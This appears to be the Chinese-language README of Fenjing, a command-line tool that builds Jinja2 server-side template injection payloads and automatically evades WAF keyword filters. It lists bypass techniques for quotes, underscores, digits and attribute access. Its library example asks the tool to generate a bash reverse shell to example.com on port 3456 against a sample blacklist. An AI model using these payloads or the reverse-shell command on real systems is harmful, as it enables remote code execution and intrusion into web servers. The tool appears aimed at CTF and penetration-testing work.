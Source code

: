 ![焚靖](assets/fenjing.webp)

> Bypass the WAF without knowing WAF

焚靖是一个针对Jinja2 SSTI的命令行脚本，具有强大的自动绕过WAF功能

## 演示

![CTFShow web365](assets/demo.webp)

`python -m fenjing scan --url 'http://xxx/'`

## 快速上手

在以下方法中选择一种

### 使用pip安装运行

```shell
pip install fenjing
python -m fenjing scan --url 'http://xxx/'
```

### 下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run marven11/fenjing scan --url 'http://xxx/'
```

### 手动安装

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing scan --url 'http://xxx/'
```

### 手动构建Docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing scan --url 'http://xxx/'
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


### 作为库使用

参考[example.py](fenjing/example.py)

```python
from fenjing import exec_cmd_payload

import functools
import time
import logging

logging.basicConfig(level = logging.WARNING)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "request", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]

    for word in blacklist:
        if word in s:
            return False
    return True

payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

print(payload)

```

